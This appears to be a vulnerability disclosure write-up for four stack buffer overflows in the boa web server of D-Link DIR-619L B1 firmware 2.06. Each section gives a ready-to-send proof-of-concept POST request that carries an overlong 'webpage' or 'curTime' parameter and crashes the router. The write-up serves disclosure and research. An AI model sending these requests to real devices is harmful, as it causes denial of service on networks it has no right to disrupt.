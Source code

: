 # DIR-619L Buffer Overflow

D-Link DIR-619L B1 2.06 was found to contain stack overflows in multiple functions in /bin/boa, This vulnerability allows attackers to trigger a denial of service (DoS) through web page parameters. The boa binary is responsible for serving http connection received by the device. 

firmware link: https://support.dlink.com/resource/products/DIR-619L/REVB/DIR-619L_REVB_FIRMWARE_PATCH_2.06.B01_WW.ZIP

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/06da0c59-fe71-4b6e-8f1d-72d321d00225)

## 1. formWPS Function

### **Vulnerability description**

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 23-24 of Figure 1), and then this global variable is finally passed to the sprintf function as an argument (as shown in Figure 2-4). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/48670541-93c4-4996-8adb-3c156df6747b)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/b608c2cf-026d-4e19-a64d-a78e851f7a77)

Figure 2

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/2c8c10ba-a04c-48bf-91fe-c2173d4ec860)

Figure 3

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/85f47264-a9ea-4032-b212-f978bd0fe718)

Figure 4

### **poc**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWPS HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715050258057
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/d05e8280-4f12-4351-aac3-99d648ec1e9a)




## 2. formWlanSetup_Wizard Function

### **Vulnerability description**

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 32-34 of Figure 1), and then this global variable is assigned to the v16 by the strcpy function (as shown at line 46 of Figure 1). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/6cac466b-5990-4a3a-80d6-fe98379131aa)

Figure 1

### **poc**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWlanSetup_Wizard HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051006529
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/eec8d872-3164-4fc4-9c64-73ce987b550e)



## 3. formWlanGuestSetup Function

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 89-92 of Figure 1), and then this global variable is passed into websRedirect function (as shown at line 490-492 of Figure 2), and finally it is passed to the sprintf function as an argument (same as the first vulnerability). 

However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.


![image](https://github.com/YuboZhaoo/IoT/assets/154046274/38840092-7ecc-46c2-812f-aa70205cc45b)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/4080e473-81f5-47da-8681-187487260366)

Figure 2

### **poc**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWlanGuestSetup HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051493922
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/756e0039-450e-42eb-8c1a-69239a194088)



## 4. formTcpipSetup

The websGetVar function obtains the "curTime" parameter from the front-end (as shown at line 61 of Figure 1), and stores the data on the stack through the sprintf function (as shown at line 86-88 of Figure 1). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/969c4f35-5f00-445b-b69b-7361ba6de285)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/7db6f033-31d8-46b9-9d79-76185b4102eb)

Figure 2

### **poc**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "curTime" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formTcpipSetup HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051676439
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

curTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/343f2513-3038-4a14-8060-4994578b7f26)



